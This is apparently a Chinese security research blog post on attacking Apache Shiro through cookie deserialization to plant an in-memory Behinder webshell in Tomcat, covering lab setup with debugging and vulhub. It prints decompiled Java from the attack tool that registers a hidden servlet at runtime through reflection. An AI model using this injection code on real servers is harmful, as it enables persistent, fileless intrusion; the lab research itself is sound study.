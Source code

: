 ```yaml
---
layout: about
category: about
Researchname:  基于内存的Shiro框架Webshell攻击研究
toc: true
author: Bin4xin
wrench: 2021-11-19
permalink: /about/Research-on-Webshell-Attack-of-Shiro-Framework-Based-on-Memory/
desc: 「其他研究」
---
```


# 基于内存的Shiro框架Webshell攻击研究

- ✅Shiro框架部署
    * IDEA tomcat调试部署
    * docker compose
- ✅Shiro框架攻击
    * 手动poc
    * 工具poc
- ✅基于tomcat的通用回显
    * tomcat冰蝎内存马
        * 利用原理
        * 攻击测试
- ✅给👴连！


## 零：Shiro框架部署
现如今部署一个靶场的方法有很多，取决于个人喜好和需求；我结合个人能力做出了一些总结：

{: .table}
| 特点\部署办法 | docker-compose | IDEA tomcat调试部署 | Docker+IDEA | 
| :--- | :--- | :--- | :--- |
| 快捷程度 | 几条命令快捷部署 | 需开放调试端口+tomcat war包(如无则需源码构建) | 你懂的 | 
| 能否调试 | ❎ | ✅ | ✅ |
| 自定义靶场（如页面） | ❎ | ✅ | ✅ | 

#### # 0x01：IDEA tomcat调试部署
本篇文章会侧重描述如何进行针对IDEA的tomcat调试部署；

- 克隆源码
  * 以shiro-721为例：
    ```
    git clone https://github.com/apache/shiro.git
    cd shiro
    git checkout shiro-root-1.4.1
    mvn install
    cd samples/web
    mvn install
    ```
  * 找到`{path-to-shiro}/samples/web/target`目录下的war包复制到tomcat webapps目录下：
    ```
    $ tree
    target
    ··
    │   ├── index.jsp
    │   ├── login.jsp
    │   ├── logout.jsp
    │   └── style.css
    ├── samples-web-1.4.1.war
    
    $ cp samples/web/target/samples-web-1.4.1.war {path-to-tomcat}/webapps/
    ```
- 开放tomcat调试端口：
    * 找到`bin/catalina.sh`文件中的`JAVA_OPTS`（会有多个），修改如下：
    ```
      JAVA_OPTS="$JAVA_OPTS $JSSE_OPTS"
      
      # Register custom URL handlers
      # Do this here so custom URL handles (specifically 'war:...') can be used in the security policy
      JAVA_OPTS="$JAVA_OPTS -Djava.protocol.handler.pkgs=org.apache.catalina.webresources"
      CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y"
      #上面的CATALINA_OPTS为新增；address为调试端口，可自行更改。
    ```
    * `bin/startup.sh`启动，看到以下日志打印则开放调试成功：
    ```
      $ tail -f logs/catalina.out
      Listening for transport dt_socket at address: 5555
      10-Mar-2021 09:51:16.763 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log Server.服务器版本: Apache Tomcat/8.5.57
      ···
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xdebug
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y
    ```
- IDEA+tomcat调试：
    * IDEA配置（添加server时为`Tomcat Server`->`Remote`）：
    ![lzFJ2uNZPagBfn6.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/lzFJ2uNZPagBfn6.png)

      * 如下图，加上`home.jsp`断点后进行http请求，可以看到IDEA中返回的frames详情；
    ![6WGlumFBdDwstVY.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/6WGlumFBdDwstVY.png)


这样基本上一个基本的IDEA+tomcat的调试配置过程基本就完成了，当然，这只是调试前的准备工作，大家多练习几次，基本上就能够熟练掌握；而最重要的以及最难的其实是调试阶段，
调试过程中的一些技巧和能力是在一次次的实践中沉淀下来的，在这里仅仅当作抛砖引玉，不做赘述。



#### # 0x02：docker compose部署

- 准备工作
    * 根据不同操作系统下载安装docker；
    * 安装`python->pip->docker-compose`，教程自行搜索:)
- 下载靶场
    * vulhub based on docker：
    ```
      $ git clone https://github.com/vulhub/vulhub.git
      $ cd vulhub/shiro/CVE-2016-4437/
      $ docker-compose up -d
    ```
等待启动即可。

## 一：Shiro框架攻击
poc代码生成攻击cookie可以参考之前的文章：
#### 1x01：手动poc
[分享：Different Shiro Framework deserialization analysis ideas#how to poc](/about/ShiroDeser/#2x03how-to-poc){:target="_blank"}
#### 1x02：工具poc
[分享：Different Shiro Framework deserialization analysis ideas#验证](/about/ShiroDeser/#%E4%BA%8C%E9%AA%8C%E8%AF%81){:target="_blank"}

## 二：基于tomcat的通用回显之冰蝎内存马
这一小节由于个人水平有限，不能像各位师傅一样从tomcat servlet等层面一探究竟，我尽量使用简洁的语言写出我的理解；
#### # 2x01：攻击测试
工具直接选择"冰蝎2_Tomcat"，执行注入；
- http发包请求如下：
![tUJATRsNyZQFWX4.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/tUJATRsNyZQFWX4.png)

- 我们可以看到HTTP请求为POST请求`p`&`path`&`dy`数据；同时header中加入了`rememberMe Cookie`；

- 分析：
Cookie是作为反序列化的入口，`dy`参数应该是写入内存的命令

同时最后返回`dynamic inject success`；

- 注入成功效果：
![jKPIn8YHdTsW9LS.png]({{site.PicturesLinks_Domain}}/images/2022/02/20/jKPIn8YHdTsW9LS.png)

#### # 2x02：利用原理
我们把利用工具的jar包扔进反编译软件定位到`BehOldDemoServlert.class`，我们来看看代码是怎么工作的：
```java
  public void dynamicAddServlet(ServletContext servletContext) throws Exception {
    Method method;
    String wrapperName = this.path;
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade)servletContext;
    Field applicationContextField = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(applicationContextFacade);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext)standardContextField.get(applicationContext);
    Object newWrapper = invoke(standardContext, "createWrapper", (Object[])null);
    invoke(newWrapper, "setName", new Object[] { wrapperName });
    setFieldValue(newWrapper, "instance", this);
    Class<?> containerClass = Class.forName("org.apache.catalina.Container", false, standardContext.getClass().getClassLoader());
    Object oldWrapper = invoke(standardContext, "findChild", new Object[] { wrapperName });
    if (oldWrapper != null)
      standardContext.getClass().getDeclaredMethod("removeChild", new Class[] { containerClass }); 
    standardContext.getClass().getDeclaredMethod("addChild", new Class[] { containerClass }).invoke(standardContext, new Object[] { newWrapper });
    try {
      method = standardContext.getClass().getMethod("addServletMappingDecoded", new Class[] { String.class, String.class });
    } catch (Exception var9) {
      method = standardContext.getClass().getMethod("addServletMapping", new Class[] { String.class, String.class });
    } 
    method.invoke(standardContext, new Object[] { this.path, wrapperName });
    init((ServletConfig)getFieldValue(newWrapper, "facade"));
  }
```
